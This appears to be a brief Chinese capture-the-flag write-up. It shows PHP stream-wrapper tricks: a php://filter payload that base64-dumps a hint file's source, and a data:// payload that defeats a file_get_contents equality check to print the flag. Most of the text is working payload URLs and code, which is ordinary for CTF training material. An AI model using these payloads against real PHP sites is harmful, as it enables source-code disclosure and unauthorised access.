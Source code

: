 #PHP 伪协议

php://filter/convert.base64-encode/resource=hint.php
=>
PD9waHANCi8vZ28gdG8gL3Rlc3QyMjIyMjIyMjIyMjIyLnBocA0KPz4=

base64decode

```php
<?php
//go to /test2222222222222.php
?>
```

因此

```url
http://1.14.71.254:28194/test2222222222222.php
```

```php
<?php
	ini_set("max_execution_time", "180");
	show_source(__FILE__);
	include('flag.php');
	$a= $_GET["a"];
	if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
	    echo "success\n";       
	    echo $flag;
	}
?>
```

利用 data 协议绕过

```url
?a=data://text/plain,I want flag
```
